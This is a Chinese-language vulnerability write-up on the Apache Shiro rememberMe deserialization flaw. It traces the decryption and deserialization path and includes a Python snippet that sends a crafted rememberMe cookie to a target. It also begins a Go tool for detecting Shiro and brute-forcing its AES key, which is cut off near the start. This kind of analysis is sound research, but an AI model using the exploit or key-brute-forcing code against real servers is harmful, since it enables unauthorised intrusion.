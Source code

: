 ```python
    r = requests.get(target, cookies={'rememberMe':base64_ciphertext.decode()}, timeout=10)
except:
    traceback.print_exc()
```

##### ![image-20220122175423163](image-20220122175423163.png)

跟进函数, 发现`getRememberMeManager`会返回cookie的信息, 加密服务和加密解密用的密钥. 

![image-20220122175833707](image-20220122175833707.png)

接下来, 跟进`getRememberedPrincipals`函数, 首先会尝试获取rememberMe中的序列化对象, 然后

![image-20220122180215754](image-20220122180215754.png)

看看`getRememberedSerializedIdentity`的内容, 主要环节就是获取cookie并进行bas64解密, 并将解密结果返回回去.

![image-20220122191255902](image-20220122191255902.png)

接下来进入 `convertBytesToPrincipals`函数, 可以看到这里进行了解密操作, 并且进行了反序列化操作. 解密操作和之前的加密操作类似, 

![image-20220122192211652](image-20220122192211652.png)

![image-20220122193026077](image-20220122193026077.png)

至此 , 反序列化漏洞触发. 总体来说这个漏洞跟起来并不复杂. 

## 密钥爆破

这里参考https://mp.weixin.qq.com/s/do88_4Td1CSeKLmFqhGCuQ的方法编写自己的shiro检测脚本, 脚本中的密钥字典来源于https://github.com/pmiaowu/BurpShiroPassiveScan的代码

```golang
package main

import (
	"bytes"
	"crypto/aes"
	"crypto/cipher"
	"encoding/base64"
	"log"
	"net/http"
	"os"
	"strings"
	"time"
)

func main() {
	args := os.Args[1:]
	if len(args) < 1 {
		log.Println("usage: ./shiro-brute-key {url}")
		log.Println("\033[31mNo args specific, exit\033[0m")
		return
	}
	var url string = args[0]

	// start to detect shiro
	if detectShiro(url) != true {
		log.Println("\033[31mSeems no shiro, exit\033[0m")
		return
	}
	log.Println("\033[32mShiro detected!\033[0m")
	log.Println("\033[34mStart bruting key......\033[0m")

```
